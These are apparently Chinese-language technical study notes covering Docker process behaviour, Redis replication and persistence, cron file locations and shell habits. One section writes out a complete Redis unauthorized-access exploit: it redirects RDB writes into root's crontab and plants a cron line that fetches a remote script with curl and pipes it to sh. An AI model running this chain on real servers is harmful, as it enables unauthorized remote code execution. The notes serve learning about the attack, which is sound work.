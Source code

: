 - Docker 不是虚拟机，容器中的应用都应该以前台执行，而不是像虚拟机、物理机里面那样，用 systemd 去启动后台服务，容器内没有后台服务的概念。对于容器而言，其启动程序就是容器应用进程，容器就是为了主进程而存在的，主进程退出，容器就失去了存在的意义，从而退出，其它辅助进程不是它需要关心的东西。

- Redis是一个使用ANSI C编写的开源、支持网络、基于内存、可选持久性的键值对存储数据库。虽然 Redi s 的读写速度都非常快，但如果当把数据都存储在单个Redis的实例中，供客户端去读取的话， 那么很有可能会产生服务器难以承受的读压力。为了缓解这样的压力，主从复制这样的机制出现了，主从模式就是指使用一个redis实例作为主机(master)，其他实例都作为从机(slave)，主机只负责写入数据，很多的从机负责读，这就很想我们常常说的 CDN 负载均衡的功能。

- redis 的攻击主要是利用 redis 的持久化存储 RDB 或者 AOF(默认不开启)，所谓持久化就是一种快照机制，用来后期恢复数据。比如 RDB 可以在一定的条件下将当前内存的数存储进一个 dump.rdb 文件中，如果下次想恢复这个数据的话，就需要将这个文件放在 redis 的快照保存目录下，替换当前的 dump.rdb 再次重启这样就能恢复原始的数据了。常见的redis 未授权RCE就是利用rdb。

  ```
  (1)修改 redis 的 rdb 文件的存放路径为 root 用户的 crontab 配置文件
  设置 dir 到定时任务目录
  config set dir "/var/spool/cron"
  设置持 rdb 文件名为root
  config set dbfilename root
  (2)使用 FLUSHALL 进行清除数据库
  127.0.0.1:6379> flushall  
  OK
  这一步主要是想清除原始 root 文件的内容，也是为了避免不必要的格式错误
  (3)在 redis 中写入我们的 cron 语句
  127.0.0.1:6379> set test "\n*/10 * * * *  curl -fsSL https://xxx.xxx.xxx.xxx/xxx/xx | sh\n"
  OK
  这里的换行符是为了实现写入时的格式良好，因为 cron 读取的时候是一行一行读取的，遇到格式不正确则丢弃
  (4)强行触发 rdb 更新
  127.0.0.1:6379> save
  至此我们的 cron 的数据就写入到了 root 用户的 cron 文件夹中了
  ```

- Redis从4.0版本开始加入了对外部扩展模块的支持。外部扩展模块可以实现新的Redis命令，新的Redis数据结构，总之基本上可以做到所有Redis内核可以做的事情。**模块的加载方式**，一种是在配置文件redis.conf中使用loadmodule /path/to/mymodule.so在Redis启动时加载。另一种方式在运行时使用命令MODULE LOAD /path/to/mymodule.so加载。加载的模块可以使用命令MODULE LIST查看，使用MODULE UNLOAD mymodule卸载。加载了模块以后我们就能直接执行我们在模块中自定义的命令了，这是不是有点像 MYSQL 的 UDF(其实就是一个道理)。**利用 Redis 主从复制来 RCE**。[https://www.k0rz3n.com/2019/07/29/对一次 redis 未授权写入攻击的分析以及 redis 4.x RCE 学习](https://www.k0rz3n.com/2019/07/29/对一次 redis 未授权写入攻击的分析以及 redis 4.x RCE 学习/)

-  /etc/crontab 及 /var/spool/cron/\$USER 中定义定时任务的区别：/etc/crontab 只有root用户可以使用，使用时需root权限，而且**必须指定运行用户**，才会执行，e.g `* * * * * * root /usr/sbin/ntpdate s1a.time.edu.cn &> /dev/null`；/var/spool/cron/\$USER 所有用户都可以使用，使用crontab -u username -e命令来添加的计划任务就是直接在此文件中添加的，e.g` * * * * * * /usr/sbin/ntpdate s1a.time.edu.cn &> /dev/null  `。

- linux的变量目录（/var），术语 '**var**' 是 **varible** 的简写。目录中保存的是未知增长和其内容频繁变动的文件（因此名为变化的）。'**/var/spool**' 目录用于保存等待处理的脱机文件，如mail、cron。

- Linux实际环境能用sh绝不用bash、dash等，要将sh作为默认shell，养成习惯。